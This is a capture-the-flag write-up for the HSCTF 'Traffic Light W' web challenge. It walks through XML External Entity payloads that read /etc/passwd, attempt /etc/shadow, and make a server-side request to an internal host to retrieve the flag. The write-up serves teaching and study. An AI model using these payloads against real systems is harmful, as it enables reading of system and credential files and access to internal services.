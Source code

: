 # Traffic Light W
Tags: web, traffic lights

## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:

![Image showing the status of the five traffic lights](./files/traffic-status.png)

We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:
![Image showing the interface to upload XML firmware](./files/upload-firmware.png)

There is a provided example, with the following script:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```
